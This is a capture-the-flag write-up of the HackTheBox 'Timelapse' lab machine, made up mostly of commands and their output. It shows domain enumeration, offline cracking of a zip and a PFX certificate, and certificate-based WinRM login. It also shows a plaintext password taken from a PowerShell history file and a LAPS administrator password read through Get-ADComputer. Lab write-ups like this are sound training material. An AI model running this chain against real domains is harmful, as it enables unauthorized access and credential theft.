






# HTB Timelapse

Basic nmap scan:
```
Nmap scan report for 10.10.11.152
Host is up (0.14s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
52305/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 661.00 seconds
          Raw packets sent: 197021 (8.669MB) | Rcvd: 683 (36.073KB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.11.152
Host is up (0.11s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-03-28 08:18:51Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ldapssl?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h59m57s
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-03-28T08:19:10
|_  start_date: N/A
TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1  161.94 ms 10.10.16.1
2  162.01 ms 10.10.11.152
NSE: Script Post-scanning.
Initiating NSE at 18:20
Completed NSE at 18:20, 0.00s elapsed
Initiating NSE at 18:20
Completed NSE at 18:20, 0.00s elapsed
Initiating NSE at 18:20
Completed NSE at 18:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.66 seconds
          Raw packets sent: 2086 (95.870KB) | Rcvd: 54 (3.362KB)
```

CME user enumeration:
```
─$ crackmapexec smb 10.10.11.152 -u '' -p '' --users                                               
SMB        10.10.11.152    445    DC01            [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB        10.10.11.152    445    DC01            [+] timelapse.htb\: 
SMB        10.10.11.152    445    DC01            [-] Error enumerating domain users using dc ip 10.10.11.152: NTLM needs domain\username and a password
SMB        10.10.11.152    445    DC01            [*] Trying with SAMRPC protocol
```

SMB share enumeration:
```
└─$ smbclient  -L ////10.10.11.152               
Password for [WORKGROUP\cl3al]:
Sharename      Type      Comment
---------      ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC      Remote IPC
NETLOGON        Disk      Logon server share 
Shares          Disk     
SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

LDAP enumeration with nmap:
```
└─$ sudo nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.152                                                                                  1 ⨯
[sudo] password for cl3al: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-27 18:34 MDT
Nmap scan report for 10.10.11.152
Host is up (0.48s latency).
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: timelapse.htb, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|  <ROOT>
|      domainFunctionality: 7
|      forestFunctionality: 7
|      domainControllerFunctionality: 7
|      rootDomainNamingContext: DC=timelapse,DC=htb
|      ldapServiceName: timelapse.htb:dc01$@TIMELAPSE.HTB
|      isGlobalCatalogReady: TRUE
|      supportedSASLMechanisms: GSSAPI
|      supportedSASLMechanisms: GSS-SPNEGO
|      supportedSASLMechanisms: EXTERNAL
|      supportedSASLMechanisms: DIGEST-MD5
|      supportedLDAPVersion: 3
|      supportedLDAPVersion: 2
|      supportedLDAPPolicies: MaxPoolThreads
|      supportedLDAPPolicies: MaxPercentDirSyncRequests
|      supportedLDAPPolicies: MaxDatagramRecv
|      supportedLDAPPolicies: MaxReceiveBuffer
|      supportedLDAPPolicies: InitRecvTimeout
|      supportedLDAPPolicies: MaxConnections
|      supportedLDAPPolicies: MaxConnIdleTime
|      supportedLDAPPolicies: MaxPageSize
|      supportedLDAPPolicies: MaxBatchReturnMessages
|      supportedLDAPPolicies: MaxQueryDuration
|      supportedLDAPPolicies: MaxDirSyncDuration
|      supportedLDAPPolicies: MaxTempTableSize
|      supportedLDAPPolicies: MaxResultSetSize
|      supportedLDAPPolicies: MinResultSets
|      supportedLDAPPolicies: MaxResultSetsPerConn
|      supportedLDAPPolicies: MaxNotificationPerConn
|      supportedLDAPPolicies: MaxValRange
|      supportedLDAPPolicies: MaxValRangeTransitive
|      supportedLDAPPolicies: ThreadMemoryLimit
|      supportedLDAPPolicies: SystemMemoryLimitPercent
|      supportedControl: 1.2.840.113556.1.4.319
|      supportedControl: 1.2.840.113556.1.4.801
|      supportedControl: 1.2.840.113556.1.4.473
|      supportedControl: 1.2.840.113556.1.4.528
|      supportedControl: 1.2.840.113556.1.4.417
|      supportedControl: 1.2.840.113556.1.4.619
|      supportedControl: 1.2.840.113556.1.4.841
|      supportedControl: 1.2.840.113556.1.4.529
|      supportedControl: 1.2.840.113556.1.4.805
|      supportedControl: 1.2.840.113556.1.4.521
|      supportedControl: 1.2.840.113556.1.4.970
|      supportedControl: 1.2.840.113556.1.4.1338
|      supportedControl: 1.2.840.113556.1.4.474
|      supportedControl: 1.2.840.113556.1.4.1339
|      supportedControl: 1.2.840.113556.1.4.1340
|      supportedControl: 1.2.840.113556.1.4.1413
|      supportedControl: 2.16.840.1.113730.3.4.9
|      supportedControl: 2.16.840.1.113730.3.4.10
|      supportedControl: 1.2.840.113556.1.4.1504
|      supportedControl: 1.2.840.113556.1.4.1852
|      supportedControl: 1.2.840.113556.1.4.802
|      supportedControl: 1.2.840.113556.1.4.1907
|      supportedControl: 1.2.840.113556.1.4.1948
|      supportedControl: 1.2.840.113556.1.4.1974
|      supportedControl: 1.2.840.113556.1.4.1341
|      supportedControl: 1.2.840.113556.1.4.2026
|      supportedControl: 1.2.840.113556.1.4.2064
|      supportedControl: 1.2.840.113556.1.4.2065
|      supportedControl: 1.2.840.113556.1.4.2066
|      supportedControl: 1.2.840.113556.1.4.2090
|      supportedControl: 1.2.840.113556.1.4.2205
|      supportedControl: 1.2.840.113556.1.4.2204
|      supportedControl: 1.2.840.113556.1.4.2206
|      supportedControl: 1.2.840.113556.1.4.2211
|      supportedControl: 1.2.840.113556.1.4.2239
|      supportedControl: 1.2.840.113556.1.4.2255
|      supportedControl: 1.2.840.113556.1.4.2256
|      supportedControl: 1.2.840.113556.1.4.2309
|      supportedControl: 1.2.840.113556.1.4.2330
|      supportedControl: 1.2.840.113556.1.4.2354
|      supportedCapabilities: 1.2.840.113556.1.4.800
|      supportedCapabilities: 1.2.840.113556.1.4.1670
|      supportedCapabilities: 1.2.840.113556.1.4.1791
|      supportedCapabilities: 1.2.840.113556.1.4.1935
|      supportedCapabilities: 1.2.840.113556.1.4.2080
|      supportedCapabilities: 1.2.840.113556.1.4.2237
|      subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb
|      schemaNamingContext: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: DC=timelapse,DC=htb
|      namingContexts: CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: DC=DomainDnsZones,DC=timelapse,DC=htb
|      namingContexts: DC=ForestDnsZones,DC=timelapse,DC=htb
|      isSynchronized: TRUE
|      highestCommittedUSN: 131168
|      dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb
|      dnsHostName: dc01.timelapse.htb
|      defaultNamingContext: DC=timelapse,DC=htb
|      currentTime: 20230328083440.0Z
|_      configurationNamingContext: CN=Configuration,DC=timelapse,DC=htb
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

User enumeration with nmap Kerberos script:
```
└─$ sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='timelapse.htb',userdb=/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-27 18:38 MDT
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.19s latency).
PORT  STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|    administrator@timelapse.htb
|_    guest@timelapse.htb
Nmap done: 1 IP address (1 host up) scanned in 2.48 seconds
```

GetNPUsers - To retrieve users with **"NO PRE-AUTH SET"** to then **AS\_REP ROAST**
```
└─$ impacket-GetNPUsers -usersfile /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -dc-ip 10.10.11.152 timelapse.htb/                1 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

```
Results:
User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

I originally had issues accessing the SMB shares. However, after trying it again, I was able to access the "Shares" share and I obtained several files download to analyze offline.

I realized the downloaded /Dev/winrm\_[backup.zip](http://backup.zip) could not be extracted as it was password protected. I used zip2john and john to crack this quickly.:

```
zip2john Dev/winrm_backup.zip > hashes.txt

The ^ above ^ command produced a hashes.txt file which contained the file's hash.
```

Then I cracked that hash file with:

```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2023-03-27 19:27) 5.882g/s 20431Kp/s 20431Kc/s 20431KC/s suzyqzb..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

_The output is a_ **_PFX_** _file which contains an SSL certificate in PKCS#12 format and a private key. PFX_
_files can be used by WinRM in order to login without a password. Let's extract them from the file._

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```
However, when attempting to extract the necessary creds from this file, I need another password.:

```
─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password:
```

To crack this next file, I need to use **_pfx2john_**:
```
pfx2john legacyy_dev_auth.pfx > test.txt
```

Finally, I use john to crack the test.txt file which contains the hash.:
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt test.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy      (legacyy_dev_auth.pfx)     
1g 0:00:00:12 DONE (2023-03-27 19:47) 0.08149g/s 263385p/s 263385c/s 263385C/s thumper1990..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Once the password is cracked I can then extract the SSL certificate and private key from the pfx file using the following commands.:
```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

Now, I can use this information to login to the machine via **evil-winrm:**
```
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
whoami
type
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



Next, with winpeas, I found the following file which is the **PowerShell** history file and it contains the credentials for the svc\_deploy user.:
```
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type consoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```

Next, I created a new remote session with evil-winrm and the newly found credentials for svc\_deploy.:
```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

When enumerating this user, I noticed it's part of a group called **_LAPS\_Readers_**. I should be able to use this user account to get the administrator password.:


To read the LAPS password, I just need to use **Get-ADComputer** and specifically request the **ms-mcs-admpwd** property:
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'  <------------ COMMAND TO USE
```



```
Admin passwd: TvLRRv6T2$6]X.A1.0W65PN+
```

Finally, I just need to create a new session with evil-winrm with the new password for the **Administrator** account.:



The root.txt file was not in the Administrator's Desktop, it was actually in the Desktop for the user TRX.:

I then obtained the user.txt from the legacyy user (I didn't feel like grabbing it from the legacyy session in evil-winrm.:


**###ROOTED!!!###**
